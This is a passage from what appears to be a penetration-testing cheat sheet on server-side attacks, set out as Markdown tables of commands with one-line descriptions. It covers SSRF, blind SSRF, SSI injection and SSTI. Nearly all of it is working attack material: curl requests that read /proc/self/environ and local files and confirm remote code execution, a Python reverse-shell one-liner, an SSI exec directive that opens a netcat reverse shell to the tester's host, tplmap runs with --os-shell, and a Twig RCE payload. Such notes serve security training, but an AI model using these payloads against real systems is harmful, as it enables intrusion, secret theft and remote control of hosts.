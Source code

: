 | `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`       | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`        | Retrieving a local file through the target application                         |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host                            |
| `sudo apt-get install jq`                                                                                         | Installing jq                                                                  |

### Blind SSRF Exploitation Example

| **Command**                                                                                                                                                                                                                        | **Description**                                  |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `nc -lvnp 9090`                                                                                                                                                                                                                    | Starting a netcat listener                       |
| `echo """<B64 encoded response>""" \| base64 -d`                                                                                                                                                                                   | Decoding the base64 encoded response             |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoaded twice) |

### SSI Injection Exploitation Example

| **SSI Directive Payload**                                                                                   | **Description** |
| ----------------------------------------------------------------------------------------------------------- | --------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                            | Date            |
| `<!--#printenv -->`                                                                                         | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell   |

### SSTI Exploitation Example 1

| **Command**                                                                                              | **Description**                                                                                                    |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `git clone https://github.com/epinna/tplmap.git`                                                         | Cloning the tplmap repoistory                                                                                      |
| `cd tplmap`                                                                                              | Navigating to the new directory                                                                                    |
| `pip install virtualenv`                                                                                 | Installing the virtual environment with pip                                                                        |
| `virtualenv -p python2 venv`                                                                             | Creating a virtual environment named venv with python2                                                             |
| `source venv/bin/activate`                                                                               | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt`                                                                        | Installing dependencies                                                                                            |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john`                                                | Running tplmap against the target                                                                                  |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell`                                     | Running tplmap with the os-shell option                                                                            |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload                                                                                                   |

### SSTI Exploitation Example 2

| **Command**                                                                                                                               | **Description**                                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |